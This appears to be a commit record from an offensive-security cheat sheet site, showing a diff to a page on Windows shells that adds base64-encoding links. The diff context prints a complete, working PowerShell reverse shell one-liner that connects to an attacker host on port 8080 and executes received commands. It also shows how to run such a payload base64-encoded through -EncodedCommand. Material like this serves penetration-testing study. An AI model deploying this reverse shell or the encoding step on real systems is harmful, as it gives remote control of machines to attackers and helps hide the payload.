

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Shells.md, in a window 1280 px wide and 900 px high, scrolled down 1573 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2398 px from its top, so only the background shows below that.

Commit message:
Update Shells.md

````diff
--- a/docs/Windows/Shells.md
+++ b/docs/Windows/Shells.md
@@ -77,7 +77,9 @@ These are just some of the ways
 ```powershell
 powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
 ```
-* You can [base64 encode](../Useful_Commands/Linux.html#base64-encode) the block above and execute with this:
+* You can [base64 encode] the block above and execute with this:
+    * [Base64 encode in Linux](../Useful_Commands/Linux.html#base64-encode)
+    * [Base64 encode in Windows](../Useful_Commands/Windows.html#base64-encode-powershell-commands)
 ```powershell
 powershell -EncodedCommand <Base64_payload>
 ```
````
